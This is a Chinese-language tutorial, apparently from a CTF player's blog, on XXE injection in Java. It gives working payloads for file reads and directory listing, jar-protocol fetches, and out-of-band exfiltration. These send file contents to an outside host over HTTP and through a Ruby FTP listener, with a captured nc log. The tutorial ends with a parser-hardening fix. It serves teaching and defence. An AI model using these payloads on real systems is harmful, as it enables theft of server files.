





# Java中的XXE

## 前言

之前SUSCTF2022的时候遇到了Java的XXE，当时也只是按照之前的思路来打了外带，但实际上Java的XXE和PHP的还是不太一样的，所以也来学习一下。

## 基础知识

XXE的基础知识，再贴一下了。

XML外部实体注入 （XML External Entity Injection，以下简称XXE注入）是一种针对解析XML文档的应用程序的注入类型攻击。当恶意用户在提交一个精心构造的包含外部实体引用的XML文档给未正确配置的XML解析器处理时，该攻击就会发生。XXE注入可能造成敏感信息泄露、拒绝服务、SSRF、命令执行等危害，现已加入OWASP Top 10豪华套餐。

XML实体又分为内部实体和外部实体：

```xml
<!ENTITY name "value">
```

```xml
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了


## 环境

漏洞环境这里为了偷懒直接用Java-sec-code的XXE环境了。

https://github.com/JoyChou93/java-sec-code/

## 常见攻击方式

### 读文件和列目录

#### file协议

```java
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://flag">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```



```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```



单纯的因为Java中的file协议可以列目录而PHP中的file协议不可以。


#### netdoc协议

同理，不过区别在于是`file:///`和`netdoc:/`，别的基本使用结果都一样的。


### 基于OOB的盲读文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://121.5.169.223:39801/evil.xml">
%remote;]>
```

```shell
root@VM-0-6-ubuntu:~/java/xxe# cat evil.xml
<!ENTITY % file SYSTEM 'file:///d://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://121.5.169.223:39802/?content=%file;'>">
%payload;
%send;

```

```shell
root@VM-0-6-ubuntu:~# nc -lnvp 39802
Listening on [0.0.0.0] (family 0, port 39802)
Connection from 222.90.96.246 12214 received!
GET /?content=flag{test} HTTP/1.1
User-Agent: Java/1.8.0_302
Host: 121.5.169.223:39802
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive


```

（实际上应该用ftp来接受数据，之后会提到）

### jar协议

```
jar:{url}!{path}
```

用于从url中下载压缩包解压文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "jar:http://127.0.0.1:39777/2.zip!/2.txt">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```



**jar 协议处理文件的过程：**

(1) 下载 jar/zip 文件到临时文件中
(2) 提取出我们指定的文件
(3) 删除临时文件


## OOB盲读文件的限制

盲读文件的时候，使用nc接受数据只能是对应的文件只有一行。如果文件中包含了`\r`，`\n`等字符的时候，会报错：

```java
java.net.MalformedURLException: Illegal character in URL
```

因此用http不行，但是可以用FTP（某个高版本JDK之前）。


服务器上安装ruby，写个ftp.rb：

```ruby
require 'socket'
server = TCPServer.new 39802
loop do
  Thread.start(server.accept) do |client|
    puts "New client connected"
    data = ""
    client.puts("220 xxe-ftp-server")
    loop {
        req = client.gets()
        puts "< "+req
        if req.include? "USER"
            client.puts("331 password please - version check")
        else
           #puts "> 230 more data please!"
            client.puts("230 more data please!")
        end
    }
  end
end

```


写个evilftp.xml：

```xml
root@VM-0-6-ubuntu:~/java/xxe# cat evilftp.xml
<!ENTITY % file SYSTEM 'file:///d://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'ftp://121.5.169.223:39802/%file;'>">
%payload;
%send;

```

启动`ruby ftp.rb`，然后ftp打，接收到多行数据：




但是从似乎是8u162开始ftp修复了，导致ftp也带不出来带换行的数据了。

所以用ftp能带出数据的版本是jdk<7u141和jdk<8u162


## 有回显读文件的限制

之所以说这是回显读文件的限制，是因为无回显外带的时候遇到这种情况无法解决，所以下面的情况都是有回显的。

遇到这些字符的时候需要使用CDATA：

```
'  "   <   >   &
```

CDATA 指的是不应由 XML 解析器进行解析的文本数据（Unparsed Character Data），CDATA 部分中的所有内容都会被解析器忽略。CDATA 部分由`<![CDATA[`开始，由`]]>`结束。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff  SYSTEM "file:///d://flag">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://121.5.169.223:39801/cdata.dtd">
%dtd;
]>
<xml>
<xxe>&all;</xxe>
</xml>
```

```shell
root@VM-0-6-ubuntu:~/java/xxe# cat cdata.dtd
<!ENTITY all "%start;%stuff;%end;">
```



但是此时对于单独的`&`仍然没办法。


## 修复

```java
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

实际上仅仅设置`dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);`也就已经OK了。